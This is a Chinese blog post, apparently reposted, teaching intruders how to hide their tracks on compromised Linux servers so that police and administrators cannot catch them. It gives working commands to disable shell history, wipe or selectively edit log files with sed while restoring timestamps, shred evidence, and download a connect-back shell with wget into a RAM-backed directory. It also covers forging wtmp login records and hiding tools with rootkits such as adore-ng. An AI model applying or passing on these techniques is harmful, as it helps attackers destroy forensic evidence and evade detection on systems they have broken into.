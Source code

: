 ```yaml
---
title: Linux下入侵匿迹隐藏的方法
tags:
- linux
- 匿名
toc: flase
date: 2016-07-28 16:21:47
description:
categories: Share
---
```

被警察叔叔请去喝茶时间很痛苦的事情，各位道长如果功力不够又喜欢出风头的想必都有过这样的“待遇”。如何使自己在系统中隐藏的更深，是我们必须掌握的基本功。当然，如果管理员真的想搞你而他的功力又足够足的话，相信没什么人能够真正的“踏雪无痕”。Forensic 与Anti-Forensic，说到底只是你和管理员之间的技术间较量而已。貌似很少有专门说这个的文章，大部分就是下载个日志擦除的软件，然后运行下就可以了，对小站可以，但对方如果是经验丰富的管理员呢？我们该如何应对？我在这里只介绍unix-like system下的，至于windows或者其他什么系统下的，欢迎各位道友补充.

1.最小化你的日志
P.S 访问目标前用跳板我就不废话了，你是VPN也好3389也罢，ssh中转，代理都行。总之记住一点—直接连接攻击目标是愚蠢的

1.1 shell使用问题
目前linux下大多数的shell都是采用bash或者其他的什么shell 通过输入输出重定向来实现与服务器的交互的，当我们使用ssh 或者telnet之类的登录的时候，我们的命令都会被记录在shell 的history文件下面。举例来说bash会在当前目录下面.bash_history文件里记录下你此次登陆操作的命令，如果你拿这台机器当跳板的话，或者扫描其他机器，你的命令都会被记录下来哦。呵呵，所以我们登录的第一件事就是执行如下命令：
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
当然不同的shell写法可能不同，像有的set设置环境变量什么的。大家根据自己的shell自行修改。记住：从 webshell弹回的shell也会记录你的操作，值得庆幸的是现在很多弹shell的脚本都预先unset 环境变量。
我们还需要记住的是在登录的时候出现在登录窗口的一些信息，比如该用户在什么时候从哪个IP登录进来的等等，这在我们后面的用于日志清除与修改的时候要用到。
如图：
lastlog
作为跳板的时候，我们有可能需要用本机的ssh去访问别的机器，但是别的机器的公钥呢？总不能放在当前用户的目录下吧？当然你可以事后删除，但多一事不如少一事，你说对么？
```bash
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```
<!-- more -->
就可以了，但在这样运行某些命令的时候可能会有提示，说你的stdin不是个terminal，这里可以这样解决：
python -c ‘import pty; pty.spawn(”/bin/sh”)’ 或者自己再建立个ttyshell。

1.2 webshell的选择问题
可能各位道友的日常生活中最主要目标瞄向了webserver 。现在的web也是大多数入侵的一个突破口。Linux下用的最多的就是apache服务器了，当我们发觉一个服务器的漏洞时候很可能要上传一个 webshell来进行对服务器文件进一步的操作和信息的搜集，部分webshell也提供了反弹shell的功能。如何能够在apache服务器的日志文件中留下最小的记录也是需要深究的。这种情况通常发生在没能够获得足够的权限来清除apache日志。如果能够 root了，则可以将重点放在第二节日志清除上。通常，日志只记录GET的信息，比如你的注入，你采用了那种方式提交数据等等。如果我们的 webshell采用的多是GET方式交互的话，就很容易在httpd的access_log中留下很多日志。这些以后都会被作为证据所采纳的。 Phpspy是个很好的选择，作者也注意掉了这点，取消了GET方式的交互，再给webshell起一个比较迷惑的名字，这样我们与webshell的交流就更加隐秘。

2. 日志的清除与改写

日志清除与改写，俗称擦PP，这是个很重要的过程，日志记录了你对目标机器的操作记录，大部分的入侵者查找都是通过日志来确定的，因此，我们需要对日志文件进行操作。对日志操作有这么个说法，能修改的就不清除，这样才能最小的减少管理员的怀疑。Linux下的大多数文件是以文本方式，或者以简单的结构体方式存入文件的，这就为我们修改某个日志记录里的具体内容提供了前提条件。
需要注意的一点是，我们需要先看看日志的存放位置，有的管理员会修改日志保存的位置，一般来说，我们可以查看/etc/syslog.conf来获得 log文件存放的位置。但要注意的是，有的管理员(及其负责)会重新编译syslogd文件来重新指定log存放的位置，怎么办？在这种情况下可以用 strings来看下/sbin/syslogd这个文件，这种管理员我只在书里看到过，至少我没遇到过: P。这个配置文件里面记录了系统存放某些log的目录，如secure文件等。下面我们就会根据这个文件来清理和修改日志。
现在可以在网上公开获得的日志清除程序代码很粗糙，我曾经看到过最夸张的清日志的代码像这样:

```bash
rm -rf /var/log/lastlog ; rm -rf /var/log/telnetd ; rm -rf /var/run/utmp ; rm -rf /var/log/secure ; rm -rf /root/.ksh_history ; rm -rf /root/.bash_history ; rm -rf /root/.bash_logut ; rm -rf /var/log/wtmp ; rm -rf /etc/wtmp ; rm -rf /var/run/utmp ; rm -rf /etc/utmp ; rm -rf /var/log ; rm -rf /var/adm ; rm -rf /var/apache/log ; rm -rf /var/apache/logs ; rm -rf /usr/local/apache/log ; rm -rf /usr/local/apache/logs ; rm -rf /var/log/acct ; rm -rf /var/log/xferlog ; rm -rf /var/log/messages ; rm -rf /var/log/proftpd/xferlog.legacy ; rm -rf /var/log/proftpd.access_log ; rm -rf /var/log/proftpd.xferlog ; rm -rf /var/log/httpd/error_log ; rm -rf /var/log/httpd/access_log ; rm -rf /etc/httpd/logs/access_log ; rm -rf /etc/httpd/logs/error_log ;rm -rf /var/log/news/suck.notice ; rm -rf /var/spool/tmp ; rm -rf /var/spool/errors ; rm -rf /var/spool/logs ; rm -rf /var/spool/locks ; rm -rf /usr/local/www/logs/thttpd_log ; rm -rf /var/log/thttpd_log ; rm -rf /var/log/ncftpd/misclog.txt ; rm -rf /var/log/ncftpd.errs ; rm -rf /var/log/auth ; rm -rf /root/.bash_history ; touch /root/.bash_history ; history –r
```
整个一rm集合，要是服务器跑了很长时间，积累了很多日志。你这样一删除，的，你帮他省事了，他也省事，一眼就看出有人进来了。
先不说其他，用rm删除就不可取，正确的删除文件做法是用shred

```bash
shred -n 31337 -z -u file_to_delete
```
这样多次擦除才够安全。呵呵
下面具体的针对日志文件进行分析.

W命令提供了管理员查看当前登录帐户的功能，所以与管理员同台共演是件很危险的事情，能不做就不做，但也有人曾经上演过local exp后，装上tty 然后T管理员下线截获登录密码的好戏。呵呵，如何让w不显示你登录了呢？
用rootkit我就不废话了，这里有个小窍门，即使是普通用户登录管理员也不能看见：
在跳板上登录目标ssh -T somebody@1.1.1.1 /bin/bash –i 你可以试试，很好用哦。
OK，言归正传

首先第一个概念是timstamp，也就是你用ls –l 看到的东西，我们在修改一个LOG文件之前或者留后门之后都得留心下这个时间，有很多管理员喜欢通过timestamp来查找入侵者留下的东西。记住以下命令
touch -r 具有你希望改成的时间的文件 你要改变的文件 他能够使得两个文件的timestamp保持一致。
在你修改日志之前，你可以在/dev/shm下面建立一个临时文件，并将log的timestamp保存下俩，然后再touch回去。为什么要用/dev /shm 目录在第三节会有说明。当然我们也可以用程序实现，不过有的时候我们会碰到没有见过的日志类型，所以有时候需要手工改写日志。除了时间之外，还需要注意文件的其他属性，比如所有者或是否有粘滞位等等。这些都需要注意。
Linux 的日志散落在系统各处，同时系统管理员也能够灵活的制定日志保存的位置，这就要求我们非常小心，采用通用的日志移除或改写工具是很不明智的，为此我们要对需要修改的日志系统有个全面的了解。具体的内容请参看文章《Linux服务器日志管理详解》。
这里提供个工具
http://lists.darklab.org/pipermail/darklab/2006-May/000234.html
怎么使用自己去看看吧。我个人还是倾向于某个日志用某个特定的清除或修改器，这样灵活性更大点。
我们也可以使用sed命令行工具来清除某些日志，通常我会这样修改web日志:
```bash
touch /dev/shm/timestamp; touch -r access_log /dev/shm/timestamp;sed ‘/192\.168\.44\.1/d’ access_log > /dev/shm/backlog ; cat /dev/shm/backlog > access_log; touch -r /dev/shm/timestamp ./access_log ;shred -n 255 -z -u /dev/shm/timestamp;
```
这里192.168.44.1是我跳板的IP。
具体的log修改和擦除工具，各位道长就从网上下个现成的自己改改吧，呵呵，我就不在这献丑了。
还有一点，我们要将wtmp文件中的登录日志修改成原来管理员登陆的IP和时间 也就是第一节中记下的时间与IP。如果实在得不到 root权限，我们也可以ssh localhost一下来隐藏登录IP。

3.工具与数据的隐藏

3.1工具与数据的临时存放
当我们需要在服务器上留下某些程序的时候，比如sniff软件，或者作为跳板攻击其他服务器的时候，我们不得不面对着一个痛苦的抉择：既要能够留下足够的工具来完成必要的任务，又要经可能少的对文件系统乃至对磁盘的数据的改写。在这种情况下，如果所要保存的数据只是临时的，我们就需要在内存中建立起文件系统。这样，当系统再重启后我们曾经在磁盘上保留的信息就会被擦除，因为它没有被真正的写到磁盘上面去。（注意：通常我们只用这种方法来保存暂时用的程序、代码等工具，如果要长久保存的不推荐此种方法）

为此，我们需要建立ramfs,它是一个在内存中存在的文件系统。具体的介绍请各位道友自行查找相关文档查看。建立ramfs很简单，不过需要有root权限。代码如下：
```bash
mount -t ramfs ramfs /usr/tmp
```
这样/usr/tmp目录就被挂载为一个内存文件系统。当然，在实际过程中我们可能要找一个隐藏比较深的不用的目录来做为挂载点。
那在我们没有root的情况下呢？有时候，我们可能会遇到某个websever的php代码有个remote execution的洞洞，在webserver 的目录下不可写的时候，我们可能会用到wget来下载一个回连的shell到一个都可以写的目录，比如/tmp
通常我们会这样做：
```bash
Wget http://xxxx/backshell.pl -P /tmp
```
但是否想过/tmp或许只是一个普通的ext3或者reinfs文件系统，最多充其量是个tmpfs，这些文件系统有个特点就是会与磁盘交互。那我们应该选择什么目录来保存我们的代码呢？在现代的linux操作系统中，默认挂载了/dev/shm目录其类型就是ramfs，作为系统共享用。我们就可以利用它来完成保存shell的目的。

3.2工具与数据的长期存放
目录的隐藏是个很高深的学问，在最开始的阶段，我们通常是在一个很深的目录里面建立名为”…” 或者” ”等的目录，然后把工具一股脑的放进去，这招在对付不负责任的管理员的时候很管用，但是遇到负责人的管理员一个find语句就能把你找出来：

```bash
# find / -uid 0 –perm -4000 –print
# find / -size +10000k –print
# find / -name “…“ –print
# find / -name “.. “ –print
# find / -name “. “ –print
# find / -name “ “ –print
```
留setuid的程序也是个大的忌讳，这样很容易引起管理员的怀疑。特别是这个setuid程序存在莫名其妙的目录下的时候。
在大多数情况下，我们可以借助 rootkit来帮助你完成这个功能。
我简单的介绍下，像linux下的rootkit，总体来说可以分为两大类：应用层和内核态的rootkit。
应用层的rootkit通常通过修改某些文件来实现信息隐藏，比如修改ls 让其不显示某个特殊名称文件夹，修改ifconfig让其不显示PROMISC位 还有的是通过修改 so 文件来留后门等等。如果管理员安装了tripwire之类的完整性校验工具各位道友就要小心了，不过一般的管理员也没那么负责。这些低级的 rootkit很容易给chkrootkit之类的工具给揪出来，要真正用的话最好自己能下载源代码重新编译下，修改掉配置文件的默认位置，这样好点。

内核级别的rootkit:顾名思义，进入ring0级别来HOOK掉某些系统调用或者其他什么乱起八糟的方法来改掉系统调用的执行输出（当然也 ring3 patch ring0也有，像suckit）。这种东西很诡异，能够真正成功装上的几率不大，关键看人品，呵呵。进入了2.6时代，很多美好的rootkit都失去了光彩。加之2.6的模块编译要内核树的支持，更使得LKM方式的 rootkit举步维艰。据wzt讲，suckit也有2.6版本的，不过是private的要money。偶等穷人也只有干看到份了。

2.6的rootkit安装可以看看包总的adore-ng教程 wnps也不错，不过wzt这BB也停止开发了 。还有什么内核静态patch等方法，也只是在phrack里面看到过，各位道友用过的给我介绍下啊，呵呵。
扯远了，关于如何隐藏文件，当然你也可以采用伪造坏扇区的方法，将你的东西放在那里，一般的文件系统算是看不出来了。你可以用特殊的工具对其进行存储。这个再以后的advance anti-forensic文章中会讲，不再多说。

4.如何安装和编译工具

可能linux与windows对于用户来说，最大的不同就是linux从网上下载的大多数都是src 源代码包，要使用的话需要在机器上现场编译，好不容易有编译好的发行包如rpm deb还是和系统相关的依赖性啊，等等，烦都烦死人了。像要装个ettercap,什么ｌｉｂｎｅｔ libpcap都得装上，但有时候我们的目标机器上没有所需要的依赖文件，这怎么办呢？不推荐使用rpm dpkg 等方式来安装需要的文件，也不推荐apt yum源等方式安装，从源代码编译把，这样比较好点。

我们把下载的源代码放到自己的隐藏目录里，在configure的时候需要指定prefix安装路径，总不能把这些包真正的装到系统里面把，指定成我们的隐藏目录就好，这样一来，管理员也不会发现怎么系统安装了许多原本没有支持的库文件或者头文件了。
最后一步，当编译我们的工具时，需要指定所依赖的头文件目录和库文件目录，不要执行make install命令，这样一来，我们的工具就可以完全在我们的隐藏目录里面了。

关于perl的模块安装，可以参看这边文章：
http://servers.digitaldaze.com/extensions/perl/modules.html
先写这么多吧，呵呵，有想到的再加上。后头还会写篇Advance anti-forensic的文章。可能有的道友会说我太小心。小心好啊，小心驶得万年船，不是么？呵呵

from：http://huaidan.org/archives/1907.html


